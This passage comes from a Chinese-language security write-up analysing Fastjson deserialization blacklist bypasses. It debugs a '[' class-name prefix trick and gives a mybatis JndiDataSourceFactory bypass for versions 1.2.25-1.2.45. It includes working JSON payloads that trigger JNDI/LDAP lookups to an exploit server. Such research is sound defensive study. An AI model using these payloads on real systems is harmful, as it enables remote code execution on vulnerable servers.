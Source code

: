因此改下payload，在第一个逗号前面加个”`[`“：

JSON

```
{
	"@type":"[com.sun.rowset.JdbcRowSetImpl"[{,
	"dataSourceName":"ldap://localhost:1389/Exploit",
	"autoCommit":true
}
```

继续报错，显示期待在43列的位置接受个”{“符号，而43列正好是紧跟在新加的`”[“`字符的后一个位置：

![img](https://drun1baby.top/2022/08/08/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8703-Fastjson%E5%90%84%E7%89%88%E6%9C%AC%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/Success1243.png)

### 调试分析

调试发现，在checkAutoType()函数中，修改的是直接对类名以”LL”开头的直接报错：

![img](https://drun1baby.top/2022/08/08/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8703-Fastjson%E5%90%84%E7%89%88%E6%9C%AC%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/ErrorLL.png)

但是以 `”[“`开头的类名自然能成功绕过上述校验以及黑名单过滤。

继续往下调试，在`TypeUtils.loadClass()`函数中，除了前面看到的判断是否以”`L`”开头、以”`;`”结尾的if判断语句外，在其前面还有一个判断是否以”`[`“开头的if判断语句，是的话就提取其中的类名，并调用`Array.newInstance().getClass()`来获取并返回类：

![img](https://drun1baby.top/2022/08/08/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8703-Fastjson%E5%90%84%E7%89%88%E6%9C%AC%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/Judge.png)

解析完返回的类名是”`[com.sun.rowset.JdbcRowSetImpl`”，通过`checkAutoType()`函数检测之后，到后面就是读该类进行反序列化了：

![img](https://drun1baby.top/2022/08/08/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8703-Fastjson%E5%90%84%E7%89%88%E6%9C%AC%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/deserializer.png)

在反序列化中，调用了`DefaultJSONParser.parseArray()`函数来解析数组内容，其中会有一些if判断语句校验后面的字符内容是否为”`[`“、”`{`“等，前面一开始尝试的几个payload报错的原因正是出在这里：

![img](https://drun1baby.top/2022/08/08/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8703-Fastjson%E5%90%84%E7%89%88%E6%9C%AC%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/PayloadError.png)

把这些条件一一满足后，就能成功利用了

## 0x07 1.2.25-1.2.45补丁绕过

### 绕过利用 EXP

**前提条件：需要目标服务端存在mybatis的jar包，且版本需为3.x.x系列<3.5.0的版本。**

直接给出payload，要连LDAP或RMI都可以：

JSON

```
{
	"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory",
	"properties":
	{
		"data_source":"ldap://localhost:1389/Exploit"
	}
}
```
